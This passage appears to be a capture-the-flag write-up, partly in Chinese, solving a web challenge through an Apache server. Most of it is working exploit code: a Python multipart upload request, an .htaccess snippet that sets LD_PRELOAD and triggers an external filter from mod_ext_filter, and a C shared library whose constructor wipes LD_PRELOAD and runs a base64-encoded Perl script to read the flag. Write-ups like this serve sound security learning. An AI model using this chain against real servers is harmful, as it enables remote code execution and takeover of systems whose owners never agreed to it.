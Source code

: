 ```python 
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryh0XsiM1LBiqUjsXU", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://192.168.1.25:8000/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-GB;q=0.8,en;q=0.7", "Connection": "close"}
burp0_data = "------WebKitFormBoundaryh0XsiM1LBiqUjsXU\r\nContent-Disposition: form-data; name=\"a\"; filename=\"null\"\r\nContent-Type: text/xml\r\n\r\nabc\r\n------WebKitFormBoundaryh0XsiM1LBiqUjsXU\r\nContent-Disposition: form-data; name=\"b\"; filename=\""+filename+"\"\r\nContent-Type: text/xml\r\n\r\n"+file_content+"\r\n------WebKitFormBoundaryh0XsiM1LBiqUjsXU--"
r=session.post(burp0_url, headers=burp0_headers, data=burp0_data)

print('http://47.243.75.225:31338/'+info[0]+"/"+filename)
```

2. 读apache的配置文件发现多了一个mod_ext_filter，ExtFilterDefine 7f39f8317fgzip mode=output cmd=/bin/gzip，这个后缀会开新进程去处理
3. .htaccess写环境变量，ld_preload劫持，用7f39f8317fgzip起新进程
```
SetEnv LD_PRELOAD "/var/www/html/xxx/1.so"
SetOutputFilter 7f39f8317fgzip
```

4. 再将.so传上去，ld_preload加载恶意的.so，RCE执行readflag

```c 
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{

    const char* cmdline = "echo 'IyEvdXNyL2xvY2FsL2Jpbi9wZXJsCnVzZSBzdHJpY3Q7CnVzZSBJUEM6Ok9wZW4zOwoKbXkgJHBpZCA9IG9wZW4zKCBcKkNITERfSU4sIFwqQ0hMRF9PVVQsIFwqQ0hMRF9FUlIsICcvcmVhZGZsYWcnICkKICBvciBkaWUgIm9wZW4zKCkgZmFpbGVkICQhIjsKCm15ICRyOwokciA9IDxDSExEX09VVD47CnByaW50ICIkciI7CiRyID0gPENITERfT1VUPjsKcHJpbnQgIiRyIjsKJHIgPSBldmFsICIkciI7CnByaW50ICIkclxuIjsKcHJpbnQgQ0hMRF9JTiAiJHJcbiI7CiRyID0gPENITERfT1VUPjsKcHJpbnQgIiRyIjsKJHIgPSA8Q0hMRF9PVVQ+OwpwcmludCAiJHIiOw==' | base64 -d > /tmp/r3.pl";
    // const char* cmdline = "perl /tmp/r3.pl > /tmp/r3pwn"
    
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }
    system(cmdline);
}
```

